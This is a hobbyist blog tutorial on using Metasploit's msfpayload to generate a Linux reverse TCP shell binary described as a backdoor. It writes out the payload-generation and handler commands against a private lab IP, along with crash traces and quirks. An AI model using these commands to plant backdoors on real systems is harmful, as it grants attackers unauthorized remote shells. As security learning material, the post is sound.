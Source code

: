 ```yaml
---
categories:
  - awesome-applications
  - metasploit
tags:
  - security
  - metasploit
layout: post
title: Msfpayload Greatness - Creating a Simple Backdoor
created: 1409461080
---
```


So it's Saturday night, I don't have a date, nor am I drunk, so lets hack!

I'm not a Metasploit ninja what so ever, and the basic MSF knowledge I have is playing with it via `msfconsole`. I've heard of `msfpayload` and its capabilities, but I've never gotten a chance to play around with it until now. Holyshit, `msfpayload` is freaking awesome! Msfpayload essentially gives you the ability to export payloads into a standalone binary executable or dll and yet even cooler, as well as the actual raw shellcode representation in either C, C#, Perl, Ruby, JS, VBA, and Python.

### Usage

To illustrate its greatness, its dead simple to create a standalone backdoor that you can deploy onto any system.  

Syntax is straight forward:

```bash
root@kali01:~# msfpayload -h

    Usage: /opt/metasploit/apps/pro/msf3/msfpayload [< options >]  < payload > [var=val] <[S]ummary|C|Cs[H]arp|[P]erl|Rub[Y]|[R]aw|[J]s|e[X]e|[D]ll|[V]BA|[W]ar|Pytho[N]>

OPTIONS:

    -h       Help banner
    -l       List available payloads
```

So lets create our self a simple tcp reverse shell. Communicating with the payload is practically identical as with `msfconsole`, in this case the `LHOST`, listening parameter is required. X, parameter is saying that we want a binary executable, and we save the file as `cool_shit`.

```bash
root@kali01:~# msfpayload linux/x86/shell/reverse_tcp LHOST=192.168.56.102 X > cool_shit
Created by msfpayload (http://www.metasploit.com).
Payload: linux/x86/shell/reverse_tcp
 Length: 71
Options: {"LHOST"=>"192.168.56.102"}
```

At this point, assuming the backdoor has been copied to the victim's system. The attacking computer can initiate the payload.  

<!-- markdownlint-disable -->
```bash
root@kali01:~# msfcli multi/handler payload=linux/x86/shell/reverse_tcp LHOST=192.168.56.102 E
[*] Initializing modules...
[-] Failed to connect to the database: could not connect to server: Connection refused
	Is the server running on host "localhost" (::1) and accepting
	TCP/IP connections on port 5432?
could not connect to server: Connection refused
	Is the server running on host "localhost" (127.0.0.1) and accepting
	TCP/IP connections on port 5432?

payload => linux/x86/shell/reverse_tcp
LHOST => 192.168.56.102
[*] Started reverse handler on 192.168.56.102:4444
[*] Starting the payload handler...
```
<!-- markdownlint-enable -->

From here the attacker waits, until the backdoor is run on the victims computer.

<img src="/assets/awesome-applications/reverse_shell.png" alt="Reverse TCP Shell" title="Reverse Shell">

Theirs a few gotchas and quirks that I noticed. The payload handler has to initiated on the attacker's system prior to running the backdoor, other wise the reverse shell backdoor will crash.

```bash
tony@alpha-vm:~$ ./cool_shit
Segmentation fault (core dumped)
```

(Detailed strace output)

```bash
xecve("./cool_shit", ["./cool_shit"], [/* 20 vars */]) = 0
[ Process PID=4859 runs in 32 bit mode. ]
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("192.168.56.102")}, 102) = -1 ECONNREFUSED (Connection refused)
syscall_4294967165(0xffaa1000, 0x1000, 0x7, 0, 0x3, 0) = -1 (errno 38)
syscall_4294967043(0x3, 0xffaa15b8, 0xffff0cff, 0, 0x3, 0) = -1 (errno 38)
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x66ffaa} ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```

The second quirk was that I wasn't able to properly get a native shell session, but rather just limited to session's commands

<img src="/assets/awesome-applications/shell_error.png" alt="Reverse TCP Shell" title="Reverse Shell">

Even the process itself on the victim's system gave /bin//sh instead of /bin/sh ....

```bash
root      4227  0.0  0.1  61364  3052 ?        Ss   22:53   0:00 /usr/sbin/sshd -D
root      4323  0.0  0.2 109784  4280 ?        Ss   22:53   0:00  \_ sshd: tony [priv]
tony      4359  0.0  0.0 109932  1948 ?        S    22:53   0:00  |   \_ sshd: tony@pts/1
tony      4360  0.0  0.1  26908  4024 pts/1    Ss   22:53   0:00  |       \_ -bash
tony      4874  0.0  0.0   4444   652 pts/1    S+   23:48   0:00  |           \_ /bin//sh
```

I haven't done additional research on this quirk, it may just be some mistake on my end.

Obviously, malicious backdoors are a lot more sophisticated than this, however the fact that the Metasploit Framework lets us easily create them, as proof-of-concept this is truly amazing.

### Resources

* <a href="http://www.offensive-security.com/metasploit-unleashed/Msfpayload" target="_blank">www.offensive-security.com/metasploit-unleashed/Msfpayload</a>
